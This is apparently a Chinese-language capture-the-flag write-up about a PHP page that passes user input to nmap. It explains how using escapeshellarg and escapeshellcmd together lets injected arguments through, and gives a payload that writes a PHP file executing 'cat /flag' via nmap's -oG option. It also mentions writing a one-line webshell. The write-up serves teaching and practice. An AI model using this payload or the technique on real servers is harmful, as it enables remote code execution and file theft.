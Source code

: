 源码

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

命令执行拼接，这两个函数做了一些限制

```php
$host = escapeshellarg($host);
    //escapeshellarg
    //1,确保用户值传递一个参数给命令
    //2,用户不能指定更多的参数
    //3,用户不能执行不同的命令
$host = escapeshellcmd($host);
    //escapeshellcmd
    //1,确保用户只执行一个命令
    //2,用户可以指定不限数量的参数
    //3,用户不能执行不同的命令
```

也就是说在 host 变量里面我们不能使用 `; & |` 等符号来执行多条命令，不过题目里面提示了我们 RCE，同时对于这两个函数简单查找了之后，发现两个一起使用的时候存在漏洞

```none
传入的参数是：172.17.0.2' -v -d a=1
经过escapeshellarg处理后变成了'172.17.0.2'\'' -v -d a=1'，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
经过escapeshellcmd处理后变成'172.17.0.2'\\'' -v -d a=1\'，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
最后执行的命令是curl '172.17.0.2'\\'' -v -d a=1\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。
```

所以经过我们构造之后，输入的值被分割成为了三部分，第一部分就是curl的IP，为 `172.17.0.2\`，第二部分就是两个配对的单引号 ' ' ，第三部分就是命令参数以及对象 `-v -d a=1'`



同时，为了构造命令读取flag,我们应当从nmap入手，查资料可以知道，nmap有一个参数-oG可以实现将命令和结果写到文件

所以我们可以控制自己的输入写入文件，这里我们可以写入一句话木马，也可以直接命令 cat flag

构造的payload为:

```zpayload
?host=' <?php echo `cat /flag`;?> -oG test.php '
```

再访问 `mkdir` 之后的文件夹中的文件即可。

![flag](flag.png)





